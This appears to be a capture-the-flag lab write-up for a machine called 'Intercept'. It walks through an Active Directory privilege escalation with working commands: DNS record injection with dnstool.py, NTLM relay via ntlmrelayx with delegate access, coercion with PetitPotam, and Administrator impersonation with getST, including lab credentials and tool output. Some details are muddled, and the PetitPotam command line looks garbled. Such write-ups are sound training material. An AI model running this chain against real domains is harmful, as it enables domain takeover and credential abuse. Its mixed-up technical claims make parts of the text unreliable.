




## Entry

| **Step**                            | **Description**                                                                                                                                              |                                                                                                                                                                      |
| ----------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **1. Check MachineAccountQuota**    | Use PowerView (\`Get-ADDomain                                                                                                                                | select ms-DS-MachineAccountQuota\`) to check if you’re allowed to create new machine accounts. This is key for creating a machine identity to request a certificate. |
| **2. Identify Web Enrollment**      | Visit `http://<DC>/certsrv/` in a browser. If the Web Enrollment page is accessible, AD CS is likely installed and exploitable.                              |                                                                                                                                                                      |
| **3. Test LDAP Signing**            | Use tools like `ldap-checker.py` or `ldapdomaindump` to check if LDAP signing is enforced. If it's **not enforced**, the target is vulnerable to NTLM relay. |                                                                                                                                                                      |
| **4. Trigger Auth with PetitPotam** | Launch **PetitPotam** to coerce the target to authenticate over SMB — this sets up the NTLM authentication we’ll relay.                                      |                                                                                                                                                                      |
| **5. Relay NTLM to LDAP**           | Use **krbrelayx** to capture the NTLM hash and relay it to LDAP to request a certificate via ESC8.                                                           |                                                                                                                                                                      |
| **6. Abuse the Certificate**        | Use **Rubeus** or Impacket's `getTGT.py` to authenticate as the target user with the certificate and escalate privileges.                                    |                                                                                                                                                                      |


## Attack

First of all i have to verify something i will write in image description.



Okey now we have to configure something then we can continue.

>its gonna fail ur ass if u wount configure ur /etc/resolv.conf
{: .prompt-tip}

```sh
➜  Intercept cat /etc/resolv.conf
Generated by NetworkManager
search home
nameserver <DC-IP>
```

Now we need [dnstool.py](https://github.com/dirkjanm/krbrelayx) to add a dns entry. otherwise it wont work here is [why?](https://www.bussink.net/rbcd-webclient-attack/)

```sh
➜  Intercept python3 krbrelayx/dnstool.py -u intercept.vl\\kathryn.spencer -p 'Chocolate1' -r osman.intercept.vl -d 10.8.2.152 --action add dc01.intercept.vl
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```
lets verify it.



Now lets start our attack!!!!! first of all start ntlmrelayx

```sh
ntlmrelayx.py -smb2support -t ldaps://dc01.intercept.vl --delegate-access
```

then we can start petitpotam but:
>IP-adress in the last should be WebClient Server IP to match Relay.
{: .prompt-tip}

```sh
python3 PetitPotam.py -d intercept.vl -u 'Kathryn.Spencer' -p 'Chocolate1' -d intercept.vl irem@80/aaa 10.10.171.246(WS01)
```


Everything seems great if u will check ur **ntlmrelay** output u should be get RELAY computer Creds



Nice!!!!!!!!!! now we can just use getST to authenticate as the target user and dump Administrator.ccache

```sh
➜  Intercept python3 /opt/impacket/examples/getST.py -spn 'cifs/ws01.intercept.vl' -impersonate Administrator -dc-ip '10.10.171.245' 'intercept.vl/UZLIHXGF$'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_ws01.intercept.vl@INTERCEPT.VL.ccache
```
